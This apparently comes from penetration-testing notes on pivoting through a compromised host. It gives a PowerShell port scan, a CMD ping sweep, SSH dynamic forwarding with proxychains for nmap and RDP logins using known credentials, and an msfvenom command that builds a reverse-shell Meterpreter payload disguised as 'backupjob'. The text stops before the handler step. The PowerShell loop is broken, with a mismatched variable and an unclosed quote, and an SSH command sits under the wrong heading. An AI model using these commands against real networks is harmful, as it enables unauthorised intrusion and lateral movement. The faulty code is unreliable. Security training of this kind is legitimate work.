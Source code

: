 Scanning ports in Powershell:

```powershell
foreach ($ports in 1..1024) {If (($a=Test-NetConnection 10.10.12.123 -Port $port -WarningAction SilentlyContinue).tcpTestSucceeded -eq $true){ "TCP port $port is open}}
```


##### Ping Sweep For Loop Using CMD


```
ssh UserNameInVictimMachine@VictimKnownIp  
```

```cmd-session
for /L %i in (1 1 254) do ping 172.16.6.%i -n 1 -w 100 | find "Reply"
```

##### RDP with proxychains

With proxychains you can use more services. For instance, xfreerdp:

Set the dynamic proxy using ssh portforwarding:

```shell-session
ssh UserNameInVictimMachine@VictimKnownIp -D 1234

# Scan the network interface cards in the connection
ip a
```

In the discovered  networks range, scan ips. Use proxychain with nmap:

```shell-session
proxychains nmap -v -Pn -sT $NewDiscoveredIp/23

# After that scan discovered IPs to find services. 
```

We have found $NewDiscoveredIp with open port 3389. We know the creds. So, with proxychain we can connect:

```shell-session
proxychains xfreerdp /v:$NewDiscoveredIp /u:$username /p:$password
```



#### Module `portfwd` in metasploit

Port forwarding can also be accomplished using Meterpreter's `portfwd` module. We can enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network


**1.** Create a payload for Ubuntu Pivot Host (our victim's machine 1):

```shell-session
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$ip -f elf -o backupjob LPORT=8080
```

**2.** Start a multi/handler, also known as a Generic Payload Handler.
